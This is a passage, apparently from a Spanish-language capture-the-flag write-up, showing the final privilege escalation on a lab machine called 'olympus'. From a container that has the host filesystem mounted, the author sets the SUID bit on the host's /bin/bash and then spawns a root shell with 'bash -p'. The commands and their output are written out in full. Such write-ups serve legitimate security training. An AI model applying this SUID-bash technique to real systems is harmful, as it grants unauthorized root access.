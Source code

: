En el directorio `/mnt` se encuentra montado la raiz del sistema *padre* y siendo el usuario **root**, podemos visualizar la flag (root.txt). En caso de que queramos una forma más interactiva, podemos dar permisos SUID a la `/bin/bash` y desde la máquina real escalar privilegios.

```bash
root@42a4cc5c0cce:/mnt/root# cd ..
root@42a4cc5c0cce:/mnt# cd bin/
root@42a4cc5c0cce:/mnt/bin# chmod 4755 bash 
root@42a4cc5c0cce:/mnt/bin# ls -l | grep bash
-rwsr-xr-x 1 root root 1099016 May 15  2017 bash
lrwxrwxrwx 1 root root       4 May 15  2017 rbash -> bash
root@42a4cc5c0cce:/mnt/bin# exit
prometheus@olympus:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1099016 May 15  2017 /bin/bash
prometheus@olympus:~$ bash -p
bash-4.4# whoami
root
bash-4.4#
```
